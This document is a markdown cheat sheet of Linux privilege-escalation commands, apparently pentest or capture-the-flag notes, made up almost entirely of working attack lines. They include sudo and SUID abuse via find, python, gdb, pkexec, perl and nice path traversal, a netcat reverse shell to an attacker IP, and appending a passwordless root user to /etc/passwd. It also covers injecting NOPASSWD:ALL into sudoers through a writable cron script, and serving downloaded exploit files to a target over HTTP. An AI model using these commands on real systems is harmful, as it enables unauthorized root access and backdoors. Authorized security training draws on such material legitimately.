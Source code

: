 - __Finding SUID__
  - __`find / -perm -4000 2>/dev/null`__

- __`sudo -l`__
  - __If you see this output `(root) NOPASSWD:/usr/bin/find`__
    - __`sudo find . -exec /bin/sh \; -quit` or without sudo also you can run __

- __Check for cronjob__
  - __It is used to execute file every 1m or 5m__
  - __`cat /etc/crontab`__
    - __for exame it's look like this `*/5 * * * * root /writable/script.sh` so here the `script.sh` will execute every 5m__
    - __you can inject this command echo `user ALL=(ALL) NOPASSWD:ALL" >> /etc/sudoers`__

- __using netcat__
  - __`nc <ip> <port > -e /bin/sh`__

- __creating a new user__
  - __`echo "newRoot::0:0:newRoot:/home/newRoot:/bin/sh" >> /etc/passwd`__
 

- ## Privilege escalation <a name="privilegeescalation"></a>

- __`python3 -c 'import os; os.system("/bin/bash")'`__
- 
- `find /  -perm -u=s -type f 2>/dev/null``` to see the permission`
- Use ```linpeas``` if you are not getting any escalation
  - download the script from the github
- If It was running on Linux Kernel 4.4.0–31-generic and Ubuntu 14.04.5 LTS. use below command
  - ```wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh```
  - ```chmod +x linux-exploit-suggester.sh``` and ```./linux-exploit-suggester.sh```
  - you will get some CVE, select any one CVE in that download URL will be there using that link you can download scripts
  - ```wget (download URL in CVE)``` download the file in your system
  - run ```sudo python -m http.server 80```
  - download the file in the target system `wget http://<myip>/<filename>`
  - example: wget http://192.168.45.161/root.cpp
 
  
 - ```bash -p```
   
- if you find ```/usr/bin/python2.7``` in sudo -l
  - then use the below command it will give you the root privilege
  - ```/usr/bin/python2.7 -c 'import os; os.setuid(0); os.system("/bin/bash")'```
 
- if you find ```/usr/bin/gbd``` in sudo -l
  - then use the below command it will give you the root privilege
  - ```/usr/bin/gdb -nx -ex 'python import os; os.execl("/bin/sh", "sh", "-p")' -ex quit```
 

- if you find ```/usr/bin/pkexec``` in ```sudo -l``` 
  - then use the below command it will give you the root privilege
  - ```sudo pkexec /bin/bash```

- if you find ```/usr/bin/mtr``` in ```sudo -l``` 
  - then use the below command it will give you the root privilege
  - ```LFILE=/root/proof.txt```
  - ```sudo mtr --raw -F "$LFILE"```

- if you find ```/usr/bin/time``` in ```sudo -l``` 
  - then use the below command it will give you the root privilege
  - ```sudo /usr/bin/time /bin/bash```

- if you find ```(ALL : ALL) /bin/nice /notes/*``` in ```sudo -l```
  - it shows that you can run all the files in the /notes directory with /bin/nice binary.
  - so create a script letsgetroot.sh which executes /bin/bash and gave the necessary permissions.
  - ```echo "/bin/bash" >> letsgetroot.sh``` save the file in any directory
  - ```sudo /bin/nice /notes/../home/user/letsgetroot.sh``` it will give the root access.


- if you find ```(ALL : ALL) NOPASSWD: /usr/bin/perl``` in ```sudo -l```
  - then use the below command it will give you the root privilege
  - ```sudo perl -e 'exec "/bin/bash";'```
